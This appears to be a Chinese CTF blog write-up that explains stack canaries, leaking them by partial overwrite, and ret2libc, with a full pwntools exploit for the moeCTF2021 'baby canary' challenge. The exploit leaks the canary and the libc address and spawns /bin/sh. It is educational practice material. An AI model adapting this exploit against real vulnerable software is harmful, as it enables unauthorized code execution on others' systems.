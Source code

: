 ```yaml
---
title: "[PWN.0x01]canary|partial overwrite|ret2libc"
date: 2022-03-05T20:30:31+08:00
draft: false
url: "articles/CTFpwn2"
categories: ["CTF","PWN"]
---
```


### canary绕过

#### 什么是canary？

canary是一种防止栈溢出的保护机制，可以在终端中使用checksec命令检查ELF文件是否开启了canary保护。

是否开启canary的编译选项：

```bash
gcc -o test test.c // 默认情况下，不开启Canary保护
gcc -fno-stack-protector -o test test.c //禁用栈保护
gcc -fstack-protector -o test test.c //启用堆栈保护，不过只为局部变量中含有 char 数组的函数插入保护代码
gcc -fstack-protector-all -o test test.c //启用堆栈保护，为所有函数插入保护代码
```

在开启了canary的情况下，程序会在栈底额外存储一个值，并在函数return的时候检查这个值是否发生变动，从而判断程序是否发生了栈溢出，可以大大提高程序运行的安全性。

![1](1.svg)

#### 如何绕过canary？

canary本身有个防意外输出的机制，由于printf %s函数以`\x00`为输出结束的标志，因此为了防止canary下面的合法数据段被合法写入的情况下，canary被printf函数意外输出，所以在小端序程序中，canary的最低位字节一定为`\x00`，因此可以进行**partial overwrite**，即部分覆盖。在写完合法的区域之后，溢出写入一个字节的数据把canary末尾的`\x00`覆盖掉，这样之后的printf函数就会顺带着泄露canary的值。



### ret2libc

#### 概述

在较为基础的pwn题中一般都有一个显性的`system`函数和`/bin/sh`字符串供选手调用。

如果这两者都不显性存在，就可以使用ret2libc方法。

这种方法主要针对**动态链接（dynamic linking）**的程序，程序运行时会调用 **libc.so** (程序被装载时，动态链接器会将程序所有所需的动态链接库加载至进程空间，libc.so 就是其中最基本的一个)。

**libc.so** 是 linux 下 C 语言库中的运行库**glibc** 的动态链接版，并且 **libc**.**so** 中包含了大量的可以利用的函数，包括 **system() 、execve()** 等系统级函数，我们可以通过找到这些函数在内存中的地址覆盖掉返回地址来获得当前进程的控制权。通常情况下，我们会选择执行 **system("/bin/sh")** 来打开 shell。

工作重心转向获取libc.so加载进内存的可利用的函数的地址。

#### 什么是动态链接？

[深入理解动态链接 - 简书 (jianshu.com)](https://www.jianshu.com/p/cdb5cfcb5056)

[深入理解GOT表和PLT表 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/130271689)

[got表和plt表在程序执行过程中的作用 - 云+社区 - 腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/1680494)

简而言之，装载到程序中的有两张表，对于一个外部库的被调用的函数，plt表指向got表中这个函数的位置，got表中则存储着这个函数在内存中的真实地址，函数的调用时通过plt表来完成的。

![2](2.svg)

而对于一个链接库（如libc.so）而言，虽然其加载进内存的具体地址不确定，但是其内部的各个函数的相对位置是确定的，也就是说，可以构造payload泄露libc.so中的一个函数的真实地址，从而根据固定的偏移获取system等函数的地址。



#### 例题：moeCTF2021 - baby canary

checksec后发现开了NX和canary保护。

![lAEmSNwFPbVyfop](lAEmSNwFPbVyfop.png)

canary的绕过方法上面已有介绍，构造payload如下，借助第一个puts获取canary的值。

```python
payload1=b'a'*(0x4c-0x0c)+b'b'
p.send(payload1)
p.recvuntil(payload1)
canary=u32(p.recv(3).rjust(4,b'\x00'))
```

接下来要获取libc.so库中的某一函数的真实地址，不妨来获取puts函数的真实地址。构造payload使gots表中puts的值输出，获取到puts函数的真实地址，并使函数返回至main函数中，重新开始程序进行进一步攻击。

```python
payload2=b'a'*(0x4c-0x0c)+p32(canary)+b'a'*12+p32(puts_plt)+p32(e.symbols["main"])+p32(puts_got)
#注意上面的puts_got指的是地址，而真实的值是不固定的，需要被puts函数泄露
p.send(payload2)
p.recvuntil("he flag!\n")
puts_addr=u32(p.recv(4))
```

之后根据已知的libc.so中puts函数和system，/bin/sh的便宜来获取system和/bin/sh的真实位置，从而构造payload攻击。

完整exp：

```python
from pwn import *
context(os="linux",arch="amd64",log_level="debug")
local=1
e=ELF("./baby_canary")
puts_got=e.got["puts"] #指向got表的地址，got表具体的值要靠puts泄露
puts_plt=e.plt["puts"]
libc = ELF('/lib/i386-linux-gnu/libc.so.6')
def main():
    if local:
        p=process("./baby_canary")
    else:
        p=remote("114.67.175.224",11482)
    p.recv()
    payload1=b'a'*(0x4c-0x0c)+b'b'
    p.send(payload1)
    p.recvuntil(payload1)
    canary=u32(p.recv(3).rjust(4,b'\x00'))
    p.recv()
    print("canary: ",hex(canary))
    payload2=b'a'*(0x4c-0x0c)+p32(canary)+b'a'*12+p32(puts_plt)+p32(e.symbols["main"])+p32(puts_got)
    p.send(payload2)
    p.recvuntil("he flag!\n")
    puts_addr=u32(p.recv(4))
    print(puts_addr)
    libc_base = puts_addr - libc.sym['puts']
    system_addr = libc_base + libc.sym['system']
    binsh_addr = libc_base + libc.search(b'/bin/sh').__next__()

    p.recvuntil("u are?\n")
    p.send(payload1)
    payload3=b'a'*(0x4c-0xc)+p32(canary)+b'a'*12+p32(system_addr)+b'aaaa'+p32(binsh_addr)
    p.send(payload3)
    p.interactive()
main()
```



### 小插曲

实践中发现，在函数调用栈中除了该有的局部变量，有时会出现一些奇怪的变量，这是由编译器决定的，一般用于存储寄存器上下文。

![3](3.png)
